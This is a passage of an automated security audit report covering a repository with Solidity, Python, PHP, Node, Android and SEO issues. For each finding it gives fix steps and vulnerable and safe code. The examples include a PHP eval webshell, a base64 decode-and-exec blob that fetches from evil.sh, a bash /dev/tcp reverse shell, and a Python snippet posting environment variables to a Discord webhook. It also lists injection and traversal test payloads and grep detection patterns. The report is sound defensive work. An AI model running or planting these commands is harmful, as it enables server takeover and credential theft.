**Impact.** Irreversible loss of user funds or protocol control - contracts are public, immutable (or hard to upgrade) and attacked within minutes of deployment.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `contracts/Vault.sol:26` | `initialize()` can be called by anyone and more than once | 45 min |
| high | `contracts/Vault.sol:12` | `withdraw()` updates state AFTER an external call (reentrancy) | 60 min |
| high | `contracts/Vault.sol:18` | `sweep()` moves value/mints/burns/selfdestructs but has no visible acc | 60 min |
| high | `contracts/Vault.sol:22` | tx.origin used for authorization (phishing via intermediate contract) | 15 min |
| high | `contracts/Vault.sol:24` | `pickWinner()` derives randomness from block data (miner/validator-inf | 120 min |
| low | `.:1` | No Slither/Echidna/Medusa/Certora in CI | 90 min |
| low | `contracts/Vault.sol:1` | Floating pragma (^0.8.0): deployed bytecode may differ from what was a | 5 min |

**Steps:**

1. Apply Checks-Effects-Interactions and OpenZeppelin `ReentrancyGuard`; update state before any external call.
2. Protect every state-changing/privileged function with explicit access control (Ownable2Step / AccessControl) and a multisig + timelock for admin actions.
3. Initializers: `initializer` modifier and `_disableInitializers()` in implementation constructors; never leave `initialize` callable.
4. Check every low-level call result; use SafeERC20 for tokens; avoid `tx.origin`; pin the compiler version (>= 0.8.x).
5. Prices from Chainlink/TWAP with staleness and deviation checks, never from a spot AMM reserve; randomness from Chainlink VRF/commit-reveal.
6. Signatures: EIP-712 typed data with nonce, deadline, chainId and verifying contract; reject address(0) from ecrecover.
7. Test: Foundry fuzz + invariant tests, fork tests, Slither + Echidna/Medusa in CI; get an independent audit and a bug bounty before mainnet; deploy with a pause/guardian mechanism.

**Vulnerable code/config:**
```
function withdraw(uint amt) public { (bool ok,) = msg.sender.call{value: amt}(""); balances[msg.sender] -= amt; }
```

**Safe form:**
```
function withdraw(uint amt) external nonReentrant {
    require(balances[msg.sender] >= amt, "insufficient");
    balances[msg.sender] -= amt;            // effects first
    (bool ok,) = msg.sender.call{value: amt}("");
    require(ok, "transfer failed");          // interaction last
}
```

**How to verify:** `slither .` clean of high/medium; invariant test 'sum(balances) == address(this).balance' holds under fuzzing; external audit report resolved.

- [ ] `SEC-007`, `SEC-029`, `SEC-030`, `SEC-032`, `SEC-033`, `TST-011`, `COD-012`  — tick when fixed, then re-run the audit

### 2. Hard-coded secret / credential  · **critical**  · 4 confirmed · 1 to review

**What it is.** A credential, token or private key is stored in source control. Anyone with repo access (or a leak) can use it; git history keeps it forever.

**Impact.** Account/cloud/database takeover depending on the secret's scope.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `contracts/.env.example2:1` | Wallet private key hard-coded | 30 min |
| high | `backend/app.py:5` | Hard-coded credential | 20 min |
| high | `backend/app.py:6` | Database URL with credentials | 20 min |
| high | `db/schema.sql:4` | Database user password in SQL script | 20 min |
| review/medium | `.env:1` | Environment file `.env` present - ensure it is git-ignored and not web | 5 min |

**Steps:**

1. Wallet: treat it as stolen - create a new wallet and move all funds/approvals NOW (revoke token approvals on the old address); never reuse the seed phrase.
2. RPC/provider keys (Infura/Alchemy/QuickNode): regenerate in the provider dashboard and add domain/IP allow-lists.
3. ROTATE/REVOKE the secret now - assume it is compromised.
4. Move it to env vars / secret manager (Vault, AWS SM, GCP SM, Doppler, GitHub Secrets); read at runtime.
5. Remove from code; purge history if the repo is shared (`git filter-repo` / BFG) and force-rotate collaborators' clones.
6. Add `.env*` to `.gitignore`, commit only `.env.example` with placeholders.
7. Install a pre-commit/CI secret scanner (gitleaks, trufflehog).

**Vulnerable code/config:**
```
API_KEY = "sk_live_..."
```

**Safe form:**
```
API_KEY = os.environ["API_KEY"]
```

**How to verify:** `gitleaks detect` returns clean; old key shows revoked in the provider console.

- [ ] `SEC-006`, `SEC-015`, `SEC-016`, `SEC-035`  — tick when fixed, then re-run the audit

### 3. OS Command Injection  · **critical**  · 3 confirmed · 1 to review

**What it is.** User input reaches a shell or process-spawn call, so metacharacters (`;`, `&&`, `$()`) run extra commands.

**Impact.** Remote code execution on the server.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `app/Http/UserController.php:10` | Shell command execution (PHP) | 30 min |
| critical | `backend/app.py:25` | Shell command execution (Python) | 30 min |
| critical | `backend/server.js:6` | Shell command execution (Node) | 30 min |
| review/high | `contracts/Vault.sol:14` | Solidity delegatecall / selfdestruct / low-level call | 60 min |

**Steps:**

1. Avoid shelling out: use a library or native API for the job.
2. If unavoidable, pass an argument array with no shell (`subprocess.run([...], shell=False)`, `execFile`, `ProcessBuilder(list)`).
3. Validate arguments against an allowlist/regex; never build the command string from input.
4. Run the process with the least privileges / in a sandbox.

**Vulnerable code/config:**
```
os.system('ping ' + host)
```

**Safe form:**
```
subprocess.run(['ping', '-c', '1', host], check=True, timeout=5)   # host validated with ipaddress.ip_address()
```

**How to verify:** Test with `127.0.0.1; id` and `$(id)` as input: must be rejected or treated as a literal.

- [ ] `SEC-002`, `SEC-003`, `SEC-005`  — tick when fixed, then re-run the audit

### 4. Weak password hashing  · **critical**  · 2 confirmed · 0 to review

**What it is.** Passwords hashed with MD5/SHA-1 (fast, unsalted) can be cracked at billions of guesses per second.

**Impact.** A DB leak exposes every user's real password (and reuse elsewhere).

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `app.db:1` | 1 of 2 sampled `users.password` values do not look hashed | 120 min |
| high | `backend/app.py:51` | Password hashed with MD5/SHA-1 | 60 min |

**Steps:**

1. Switch to argon2id (or bcrypt cost ≥ 12 / scrypt) via the framework (`password_hash`, `bcrypt`, `passlib`, Spring `BCryptPasswordEncoder`).
2. On next successful login, re-hash the password with the new algorithm (transparent migration); keep a `hash_version` column.
3. Force reset for dormant accounts after a grace period.

**Vulnerable code/config:**
```
hash = md5($password)
```

**Safe form:**
```
$hash = password_hash($password, PASSWORD_ARGON2ID);  password_verify($input, $hash);
# Python: from argon2 import PasswordHasher; ph.hash(pw); ph.verify(h, pw)
```

**How to verify:** Check new users have `$argon2id$`/`$2y$` prefix; legacy hashes upgrade on login.

- [ ] `SEC-001`, `SEC-022`  — tick when fixed, then re-run the audit

### 5. Webshell / remote code execution backdoor  · **critical**  · 1 confirmed · 1 to review

**What it is.** Code that executes attacker-controlled input (eval/assert/system on $_POST/$_GET/$_REQUEST, eval(base64_decode(...)), dynamic function names from the request) or a known webshell signature (c99, r57, b374k, WSO, China Chopper, FilesMan), or a script/PHP payload hidden inside an image or an upload folder.

**Impact.** Full remote control of the server: read the database and secrets, deface or pivot into your network, install miners and persistence. This is usually the footprint of a past compromise.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `web/uploads/shell.php:1` | PHP executes request data (webshell) | 60 min |
| review/high | `web/uploads/shell.php:1` | Server-side script stored in an upload/cache/media folder | 30 min |

**Steps:**

1. ISOLATE: take the host/CI runner offline or block its egress; do not delete evidence yet (copy the file and `git log -p -- <file>` somewhere safe).
2. ROTATE every secret the machine or repository could read (cloud keys, DB passwords, API tokens, SSH keys, CI secrets, signing keys). Assume they are compromised.
3. REMOVE the malicious code and find HOW it got in: `git log -p --follow -- <file>` (who/when), compromised dependency or account, vulnerable upload form, leaked deploy key.
4. Delete the file (after copying it as evidence), then compare the whole web root with a clean checkout: `git status`, `git diff --stat`, or `diff -r clean/ live/`.
5. Block execution in upload/cache folders (nginx `location ~* /uploads/.*\.php$ { deny all; }` or Apache `php_flag engine off`) and make the web root read-only for the app user.
6. Patch how it got in (vulnerable plugin/upload form/CMS version, stolen FTP/SSH credentials) before putting the server back online.

**Vulnerable code/config:**
```
<?php @eval($_POST['x']); ?>
```

**Safe form:**
```
// no dynamic execution of request data; file uploads stored outside the web root, validated by content type and re-encoded
```

**How to verify:** `grep -RIlE "eval\s*\(\s*(base64_decode|\$_(POST|GET|REQUEST))" .` finds nothing; no PHP files in upload folders; the file hashes match a clean release; access logs show no requests to the old path.

- [ ] `SEC-010`  — tick when fixed, then re-run the audit

### 6. Insecure Deserialization  · **critical**  · 1 confirmed · 0 to review

**What it is.** Untrusted bytes are deserialized with a format that can instantiate arbitrary objects (pickle, PHP unserialize, Java ObjectInputStream, yaml.load, Marshal).

**Impact.** Remote code execution.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `backend/app.py:43` | Unsafe deserialization | 45 min |

**Steps:**

1. Use data-only formats (JSON) and validate with a schema.
2. `yaml.safe_load`, never `yaml.load` without SafeLoader.
3. If native serialization is unavoidable: sign with HMAC and verify before deserializing, and allowlist classes.
4. Never deserialize cookies/params/uploads from clients.

**Vulnerable code/config:**
```
obj = pickle.loads(request.data)
```

**Safe form:**
```
obj = json.loads(request.data)   # + schema validation; yaml.safe_load(...)
```

**How to verify:** Unit test that a crafted payload is rejected.

- [ ] `SEC-004`  — tick when fixed, then re-run the audit

### 7. Obfuscated payload decoded and executed  · **critical**  · 1 confirmed · 0 to review

**What it is.** Code decodes a blob (base64, zlib, hex, packer) and immediately executes it (`exec(base64.b64decode(...))`, `eval(atob(...))`, `eval(function(p,a,c,k,e,d)...)`, PowerShell `-EncodedCommand` or `IEX` of a download, `echo ... | base64 -d | sh`). Malware uses this to hide what it does; a few commercial obfuscators do too.

**Impact.** You cannot review what actually runs; typical vehicle for droppers, stealers and backdoors.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `scripts/setup.sh:1` | Shell decodes a blob and pipes it to a shell | 60 min |

**Steps:**

1. Do NOT run it. Decode in a sandbox/offline: replace the `exec/eval` with `print` and run in a throwaway container, or decode the blob with `base64 -d` and read it.
2. Find who added it: `git log -p -S'<fragment>' -- <file>`; if it was not intentional treat it as an incident (see the response steps below).
3. If it is a legitimate commercial obfuscator/licence loader, document it, pin the source, and keep it out of the repo (build step instead).
4. Replace dynamic execution with readable code or a reviewed dependency.
5. ROTATE every secret the machine or repository could read (cloud keys, DB passwords, API tokens, SSH keys, CI secrets, signing keys). Assume they are compromised.

**Vulnerable code/config:**
```
exec(__import__('base64').b64decode('aW1wb3J0IG9zOyBvcy5zeXN0ZW0oJ2N1cmwgZXZpbC5zaCB8IHNoJyk='))
```

**Safe form:**
```
# explicit, reviewable code; no decode-and-execute
```

**How to verify:** No exec/eval of decoded data remains; the decoded content was read and is understood; tests and build pass.

- [ ] `SEC-008`  — tick when fixed, then re-run the audit

### 8. Reverse shell / remote command channel  · **critical**  · 1 confirmed · 0 to review

**What it is.** Code opens a connection to a remote host and attaches a shell to it (`bash -i >& /dev/tcp/IP/PORT`, `nc -e /bin/sh`, Python socket+dup2, Node net.Socket + spawn('/bin/sh'), PowerShell TCPClient + IEX).

**Impact.** The attacker gets an interactive shell on your machine/CI/server with the permissions of that process.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| critical | `scripts/update.sh:2` | Bash reverse shell (/dev/tcp) | 60 min |

**Steps:**

1. Treat as an active compromise: ISOLATE: take the host/CI runner offline or block its egress; do not delete evidence yet (copy the file and `git log -p -- <file>` somewhere safe).
2. ROTATE every secret the machine or repository could read (cloud keys, DB passwords, API tokens, SSH keys, CI secrets, signing keys). Assume they are compromised.
3. Remove the code, then find out how it was introduced (`git log -p -S'/dev/tcp' -- <file>`) and which commit/account/dependency added it.
4. Block outbound connections from build/runtime hosts except an allow-list (egress firewall, Kubernetes NetworkPolicy) and monitor for new outbound connections.
5. REBUILD from a clean commit or image instead of cleaning in place; redeploy, and compare file hashes with a known-good release.

**Vulnerable code/config:**
```
bash -i >& /dev/tcp/203.0.113.9/4444 0>&1
```

**Safe form:**
```
# no interactive shell to remote hosts; use SSH with keys + audited bastion for administration
```

**How to verify:** `grep -RIn '/dev/tcp/\|nc -e\|mkfifo' .` finds only documentation; `ss -tnp` shows no unexpected outbound sessions; secrets were rotated.

- [ ] `SEC-009`  — tick when fixed, then re-run the audit

### 9. Database schema issue  · **high**  · 13 confirmed · 0 to review

**What it is.** Schema design problems that harm integrity, performance or security.

**Impact.** App compromise = full DB compromise.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `db/schema.sql:3` | Over-broad GRANT | 20 min |
| medium | `app.db:1` | Invalid foreign key definition | 30 min |
| medium | `app.db:1` | Table `users` has no PRIMARY KEY | 25 min |
| medium | `app.db:1` | Money column `users.balance` uses REAL | 30 min |
| medium | `app.db:1` | Money column `orders.total` uses REAL | 30 min |
| medium | `db/schema.sql:1` | Table `users` has no PRIMARY KEY | 20 min |
| medium | `db/schema.sql:1` | Money column `users.price` uses FLOAT | 30 min |
| medium | `db/schema.sql:1` | Password column `users.password` too short for a modern hash (32) | 30 min |
| medium | `db/schema.sql:2` | Money column `orders.total` uses FLOAT | 30 min |
| low | `app.db:1` | Foreign keys declared but PRAGMA foreign_keys is OFF by default | 10 min |
| low | `app.db:1` | Foreign key `orders.user_id` without index | 10 min |
| low | `db/schema.sql:2` | Foreign key `orders.user_id` without index | 10 min |
| low | `db/schema.sql:2` | Table `orders` uses MyISAM | 20 min |

**Steps:**

1. Add the missing PRIMARY KEY / FOREIGN KEY / INDEX in a new migration (never edit applied migrations).
2. Use DECIMAL for money, utf8mb4 for MySQL text, InnoDB engine, least-privilege grants.
3. Test the migration on a copy of production data first.

**Vulnerable code/config:**
```
CREATE TABLE t (name text);
```

**Safe form:**
```
CREATE TABLE t (id BIGSERIAL PRIMARY KEY, name text NOT NULL);  CREATE INDEX ON child(parent_id);
```

**How to verify:** Re-run `python3 audit.py --db ...`; finding gone.

- [ ] `SEC-034`, `BUG-003`, `COD-003`, `BUG-004`, `BUG-005`, `COD-004`, `BUG-008`, `SEC-043`, `BUG-009`, `COD-008`, `PER-001`, `PER-002` …  — tick when fixed, then re-run the audit

### 10. Cross-Site Scripting (XSS)  · **high**  · 6 confirmed · 1 to review

**What it is.** Untrusted data is written into HTML/JS/URL context without context-correct encoding, so the browser executes attacker script in your origin.

**Impact.** Session/token theft, actions as the victim, defacement, keylogging, pivot to admin accounts (stored XSS hits every viewer).

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `app/Http/UserController.php:6` | Request data echoed without encoding (PHP) | 10 min |
| high | `backend/app.py:20` | User input rendered as HTML without escaping (Python) | 10 min |
| high | `backend/server.js:4` | User input written straight into HTML response (Node) | 10 min |
| high | `backend/server.js:6` | User input written straight into HTML response (Node) | 10 min |
| high | `frontend/src/App.jsx:2` | Raw HTML sink (innerHTML/document.write) | 15 min |
| high | `web/uploads/shell.php:1` | Dynamic code evaluation | 30 min |
| review/high | `frontend/src/App.jsx:5` | Framework raw-HTML escape hatch | 15 min |

**Steps:**

1. Identify the sink (innerHTML, v-html, dangerouslySetInnerHTML, `{!! !!}`, `|safe`, echo of request data).
2. Prefer auto-escaping output: `textContent`, `{{ }}`/`{{ }}` templates, `htmlspecialchars($x, ENT_QUOTES, 'UTF-8')`.
3. If HTML must be rendered (rich text), sanitize with an allowlist library (DOMPurify, sanitize-html, bleach, HTMLPurifier) at render time.
4. Validate URL schemes (`http`, `https`, `mailto` only) before putting user data in `href`/`src`.
5. Add a Content-Security-Policy (no `unsafe-inline`) as defense in depth - not as the fix.
6. Add a test that renders `` and asserts it is shown as text.

**Vulnerable code/config:**
```
el.innerHTML = '<b>' + userInput + '</b>';   // or: echo $_GET['q'];
```

**Safe form:**
```
el.textContent = userInput;                       // JS
element.innerHTML = DOMPurify.sanitize(html);     // rich text
echo htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');   // PHP
```

**How to verify:** Inject `"><svg onload=alert(1)>` into the field in a local build; nothing should execute.

- [ ] `SEC-013`, `SEC-019`, `SEC-023`, `SEC-025`, `SEC-036`, `SEC-038`  — tick when fixed, then re-run the audit

### 11. Android manifest/WebView/storage weaknesses  · **high**  · 1 confirmed · 5 to review

**What it is.** Debuggable builds, backups, cleartext traffic, exported components, permissive WebView and plaintext token storage expose app data.

**Impact.** Data extraction via adb/backup, MITM, component hijack, XSS-to-native bridges.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `mobile/android/app/src/main/AndroidManifest.xml:2` | Android: debuggable / cleartext | 5 min |
| review/medium | `frontend/src/App.jsx:3` | Token/password in insecure local storage | 30 min |
| review/medium | `mobile/android/app/src/main/AndroidManifest.xml:2` | Android: backup / exported component | 10 min |
| review/medium | `mobile/android/app/src/main/AndroidManifest.xml:3` | Android: backup / exported component | 10 min |
| review/medium | `mobile/android/app/src/main/Main.kt:1` | WebView risk (JS enabled / bridge / file access) | 20 min |
| review/medium | `mobile/android/app/src/main/Main.kt:1` | Token/password in insecure local storage | 30 min |

**Steps:**

1. Release builds: `android:debuggable=false`, `allowBackup=false` (or backup rules), `usesCleartextTraffic=false`.
2. Set `android:exported="false"` unless needed; protect exported components with permissions.
3. WebView: disable JS unless required, no `addJavascriptInterface` on untrusted content, no file access.
4. Store tokens in Keystore-backed `EncryptedSharedPreferences`/Keychain/`flutter_secure_storage`, not plain prefs/AsyncStorage.

**Vulnerable code/config:**
```
android:allowBackup="true"
```

**Safe form:**
```
android:allowBackup="false"
```

**How to verify:** Inspect merged manifest in release build; `adb backup` yields nothing.

- [ ] `SEC-037`  — tick when fixed, then re-run the audit

### 12. On-page SEO  · **high**  · 6 confirmed · 0 to review

**What it is.** Page-level signals search engines and social networks rely on are missing or malformed: title, meta description, canonical, single H1, Open Graph/Twitter cards, language, image alt text, structured data.

**Impact.** Lower rankings and click-through, poor social previews, duplicate-content confusion, weaker accessibility.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `web/index.html:1` | Pages without <title> (1 of 1 HTML pages) | 5 min |
| medium | `web/index.html:1` | Pages without meta description (1 of 1 HTML pages) | 5 min |
| medium | `web/index.html:1` | Pages without viewport meta (not mobile-friendly) (1 of 1 HTML pages) | 5 min |
| low | `web/index.html:1` | Pages without canonical link (1 of 1 HTML pages) | 5 min |
| low | `web/index.html:1` | Pages with zero or multiple <h1> (1 of 1 HTML pages) | 5 min |
| low | `web/index.html:1` | Pages missing Open Graph title/image (1 of 1 HTML pages) | 5 min |

**Steps:**

1. Give every indexable page a unique <title> (30-60 chars, primary keyword first, brand last) and a unique meta description (70-160 chars, a reason to click).
2. Add <link rel="canonical"> pointing to the preferred absolute URL (self-referencing by default).
3. Exactly one <h1> per page that matches the search intent; use h2/h3 for structure.
4. Add Open Graph (og:title, og:description, og:image 1200x630, og:url) and twitter:card.
5. Set <html lang> and hreflang for multilingual pages.
6. Describe every meaningful image with alt text; use descriptive file names.
7. Add JSON-LD structured data (Organization, WebSite+SearchAction, Article/Product/FAQ/BreadcrumbList as relevant) and validate with the Rich Results Test.

**Vulnerable code/config:**
```
<title></title>      <h1>A</h1><h1>B</h1>
```

**Safe form:**
```
<title>Hand-made leather wallets | Acme</title>
<meta name="description" content="Full-grain leather wallets made in Madrid. Free shipping over 50 EUR.">
<link rel="canonical" href="https://acme.com/wallets">
```

**How to verify:** View source / Lighthouse SEO category = 100; Search Console URL Inspection shows the chosen canonical.

- [ ] `SEO-001`, `SEO-004`, `SEO-005`, `SEO-006`, `SEO-007`, `SEO-008`  — tick when fixed, then re-run the audit

### 13. SQL Injection  · **high**  · 4 confirmed · 1 to review

**What it is.** User-controlled text is concatenated/interpolated into an SQL statement, so the database parses attacker input as SQL code instead of data.

**Impact.** Read, modify or delete any table (including password hashes), bypass login, and on some engines execute OS commands.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `app/Http/UserController.php:5` | SQL built with string concatenation (PHP) | 20 min |
| high | `backend/app.py:12` | SQL built with string formatting (Python) | 20 min |
| high | `backend/app.py:19` | SQL built with string formatting (Python) | 20 min |
| high | `backend/server.js:5` | SQL built with template/concatenation (JS/TS) | 20 min |
| review/high | `mobile/android/app/src/main/Main.kt:1` | SQL built with concatenation (Java/Kotlin/Android) | 20 min |

**Steps:**

1. Find every place the query string is built (the flagged line and its callers).
2. Replace concatenation/interpolation with placeholders (`?`, `%s`, `$1`, `:name`) and pass values separately.
3. For values that cannot be parameters (ORDER BY column, table name, sort direction) map user input to a fixed allowlist.
4. Give the application DB user least privilege (no DROP/ALTER/FILE, only needed tables).
5. Add a regression test that sends `' OR '1'='1` and `"; DROP TABLE x;--` and asserts no change in behavior.

**Vulnerable code/config:**
```
query = f"SELECT * FROM users WHERE name = '{name}'"
```

**Safe form:**
```
# Python (DB-API)      cur.execute("SELECT * FROM users WHERE name = %s", (name,))
// Node (pg/mysql2)     db.query('SELECT * FROM users WHERE name = $1', [name])
// PHP (PDO)            $s = $pdo->prepare('SELECT * FROM users WHERE name = ?'); $s->execute([$name]);
// Java                 PreparedStatement ps = c.prepareStatement("SELECT * FROM users WHERE name = ?"); ps.setString(1, name);
// Go                   db.Query("SELECT * FROM users WHERE name = $1", name)
// Allowlist ORDER BY   col = {"name":"name","date":"created_at"}.get(sort, "created_at")
```

**How to verify:** Run the new test; also try `sqlmap` or manual payloads only against your local/staging copy.

- [ ] `SEC-012`, `SEC-017`, `SEC-018`, `SEC-024`  — tick when fixed, then re-run the audit

### 14. Technical SEO & crawlability  · **high**  · 3 confirmed · 1 to review

**What it is.** Crawlers cannot reliably discover, fetch or index pages: broken links, redirect chains, missing/incorrect robots.txt or sitemap, noindex mistakes, client-side-only rendering, missing HTTPS redirect or compression.

**Impact.** Pages are not indexed or waste crawl budget; link equity is lost; users hit errors.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `web/public/robots.txt:1` | robots.txt blocks the whole site (Disallow: /) | 5 min |
| medium | `.:1` | No sitemap.xml (or generator) found | 30 min |
| info | `web/public/robots.txt:1` | robots.txt does not reference the sitemap | 2 min |
| review/high | `.:1` | Client-side-rendered SPA without SSR/prerender (crawlers see an empty  | 480 min |

**Steps:**

1. Publish /robots.txt (allow CSS/JS, point to the sitemap) and /sitemap.xml containing only 200, indexable, canonical URLs; submit it in Search Console.
2. Fix 4xx/5xx pages and internal links to them; replace redirect chains with a single 301 to the final URL.
3. Force HTTPS and a single host (www vs apex) with 301s; add HSTS.
4. Never ship `noindex` on pages you want ranked (check staging flags leaking to production).
5. Server-render or prerender important routes (Next/Nuxt/Astro/SvelteKit SSR/SSG); a client-only SPA shell is crawled slowly and unreliably.
6. Serve a real 404 status for missing pages; enable gzip/brotli and caching headers.
7. Use hreflang + canonical consistently for international sites.

**Vulnerable code/config:**
```
Disallow: /   (robots.txt in production)   |   301 → 301 → 302 → 200
```

**Safe form:**
```
User-agent: *
Allow: /
Sitemap: https://acme.com/sitemap.xml
```

**How to verify:** Search Console > Pages shows no 'Excluded by noindex' for money pages; crawl shows 0 broken links and no chains.

- [ ] `SEO-002`, `SEO-003`, `SEO-011`  — tick when fixed, then re-run the audit

### 15. Possible IDOR / BOLA (missing ownership check)  · **high**  · 2 confirmed · 0 to review

**What it is.** An object is loaded by a client-supplied ID; if the code does not also check it belongs to the caller/tenant, anyone can read or edit others' data.

**Impact.** Cross-user and cross-tenant data exposure - the most common high-impact web bug.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `app/Http/UserController.php:7` | Object loaded by client-supplied id (check ownership) | 20 min |
| high | `backend/server.js:8` | Object loaded by client-supplied id (check ownership) | 20 min |

**Steps:**

1. Scope the lookup through the owner: `$user->orders()->findOrFail($id)` / `Order.objects.get(pk=id, owner=request.user)`.
2. Or authorize explicitly (`Gate::authorize('view', $order)`, policies, `@PreAuthorize`).
3. Use a global tenant scope; add a test where user B requests user A's id and expects 403/404.

**Vulnerable code/config:**
```
Order::findOrFail($request->id)
```

**Safe form:**
```
$request->user()->orders()->findOrFail($request->id)
```

**How to verify:** Cross-account request returns 404/403.

- [ ] `SEC-014`, `SEC-027`  — tick when fixed, then re-run the audit

### 16. JWT misuse  · **high**  · 2 confirmed · 0 to review

**What it is.** Hard-coded/weak signing secret, `alg: none`, or disabled signature/expiry verification make tokens forgeable.

**Impact.** Authentication bypass and privilege escalation.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `backend/server.js:7` | JWT signed with hard-coded secret | 20 min |
| high | `contracts/Vault.sol:22` | Solidity tx.origin authorization | 20 min |

**Steps:**

1. JWT: generate a new signing secret/key pair, deploy it, and invalidate sessions (all tokens signed with the old secret are forgeable).
2. Use asymmetric keys (RS256/ES256) or a KMS and load the key from the environment.
3. Load the secret/private key from a secret manager/env; rotate the leaked one.
4. Pin the algorithm on verify (`algorithms=['HS256']` / `RS256`); never accept `none`.
5. Always verify signature, `exp`, `iss`, `aud`; keep short TTL + refresh rotation.

**Vulnerable code/config:**
```
jwt.sign(payload, 'secret123')
```

**Safe form:**
```
jwt.sign(payload, process.env.JWT_SECRET, {algorithm:'HS256', expiresIn:'15m'})
```

**How to verify:** Forge a token with another key/alg none: API must return 401.

- [ ] `SEC-026`, `SEC-031`  — tick when fixed, then re-run the audit

### 17. Flaky / brittle test patterns  · **high**  · 2 confirmed · 0 to review

**What it is.** Fixed sleeps, CSS/XPath locators, forced clicks, un-awaited assertions, order-dependent tests and unmocked time/randomness make tests intermittently fail or pass without verifying anything.

**Impact.** Teams stop trusting CI, reruns hide real failures, and un-awaited assertions pass even when the page is broken.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `web/tests/checkout.spec.ts:6` | 1 web-first assertion(s) not awaited - they never fail the test | 3 min |
| medium | `web/tests/checkout.spec.ts:4` | Fixed sleeps in tests: 2 occurrence(s) in 1 file(s) | 8 min |

**Steps:**

1. Replace sleeps with auto-waiting web-first assertions (`await expect(locator).toBeVisible()`), `waitFor`, or explicit network/route waits.
2. Locate like a user: getByRole > getByLabel > getByText > getByTestId > CSS (last resort); avoid XPath and deep CSS chains.
3. Remove `force: true`: fix the real overlap/animation; always `await expect(...)`.
4. Make every test independent (own data, fresh context); avoid serial mode unless truly required.
5. Freeze time/random (`page.clock`, `vi.useFakeTimers`, seeded RNG).
6. Keep retries ≤ 2 in CI, record traces, and quarantine flaky tests with an owner and a deadline - never leave `.only`/`.skip` unexplained.

**Vulnerable code/config:**
```
await page.waitForTimeout(3000); await page.click('.btn-primary');
```

**Safe form:**
```
await page.getByRole('button', { name: 'Save' }).click();
await expect(page.getByText('Saved')).toBeVisible();
```

**How to verify:** Run the suite 20× in parallel (`--repeat-each=20`): zero flakes.

- [ ] `BUG-002`, `TST-009`  — tick when fixed, then re-run the audit

### 18. Possible data exfiltration or credential stealer  · **high**  · 1 confirmed · 0 to review

**What it is.** Code collects secrets or system data and sends it out: environment variables posted over HTTP, browser/wallet/SSH/cloud credential paths read together, Discord/Telegram webhooks used as a drop point, or CI steps that pipe `env`/secrets to curl.

**Impact.** Credentials and customer data leave your environment without any alert; this is how stealers and malicious packages monetise access.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `.github/workflows/deploy.yml:7` | Pipes environment/credentials to a network tool | 60 min |

**Steps:**

1. Verify intent: is this a real notification/telemetry feature? If not, remove it.
2. Rotate every secret the code could read (cloud keys, DB passwords, API tokens, SSH keys, CI secrets, signing keys).
3. Check network logs for requests to the destination; add egress allow-lists for CI and servers.
4. Restrict CI secrets to the jobs that need them (environment protection rules, OIDC instead of long-lived keys).
5. Add secret scanning + push protection so tokens in webhooks/bots are not committed.

**Vulnerable code/config:**
```
requests.post('https://discord.com/api/webhooks/1/abc', json=dict(os.environ))
```

**Safe form:**
```
# send only fixed, non-sensitive fields to an approved endpoint; secrets stay in the secret manager
```

**How to verify:** No code path sends environment/credential data to third-party hosts; the old webhook/bot token was revoked.

- [ ] `SEC-011`  — tick when fixed, then re-run the audit

### 19. Server-Side Request Forgery (SSRF)  · **high**  · 1 confirmed · 0 to review

**What it is.** The server fetches a URL chosen by the user, letting attackers reach internal services and cloud metadata (169.254.169.254).

**Impact.** Internal network scanning, cloud credential theft, access to admin panels.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `backend/app.py:31` | Outbound request to user-controlled URL | 30 min |

**Steps:**

1. Prefer an allowlist of hostnames/schemes.
2. Resolve DNS yourself, reject private/loopback/link-local ranges, then connect to that validated IP (prevents DNS rebinding).
3. Disable redirects (or revalidate each hop); set short timeouts and response size caps.
4. Block egress to metadata/internal CIDRs at the network layer; use IMDSv2 on AWS.

**Vulnerable code/config:**
```
requests.get(request.args['url'])
```

**Safe form:**
```
u = urlparse(url); assert u.scheme == 'https' and u.hostname in ALLOWED_HOSTS
requests.get(url, timeout=5, allow_redirects=False)
```

**How to verify:** Try `http://127.0.0.1`, `http://169.254.169.254/`, `http://[::1]`, decimal IP and a redirect to them: all blocked.

- [ ] `SEC-020`  — tick when fixed, then re-run the audit

### 20. Path Traversal / arbitrary file access  · **high**  · 1 confirmed · 0 to review

**What it is.** A file path is built from user input; `../` or absolute paths escape the intended directory.

**Impact.** Read secrets/source (`/etc/passwd`, `.env`) or overwrite files.

**Where to fix:**

| Sev. | File | Title | Effort |
|---|---|---|---|
| high | `backend/app.py:39` | File access with user-controlled path | 20 min |

**Steps:**

1. Never use the raw name. Map an ID to a stored path, or generate random server-side file names.
2. Resolve the final path and verify it stays under the base directory (`realpath(base + name).startswith(realpath(base))`).
3. Reject `..`, absolute paths, null bytes; use framework helpers (`send_from_directory`, `Storage::disk`).
4. For archives, check each entry's resolved path before extracting (zip-slip).

**Vulnerable code/config:**
```
open('/var/data/' + request.args['f'])
```

**Safe form:**
```
p = os.path.realpath(os.path.join(BASE, name))
if not p.startswith(os.path.realpath(BASE) + os.sep): abort(400)
```

**How to verify:** Request `../../etc/passwd` and `%2e%2e%2f` variants: must return 400/404.

- [ ] `SEC-021`  — tick when fixed, then re-run the audit

### 21. Cryptocurrency miner  · **high**  · 1 confirmed · 0 to review

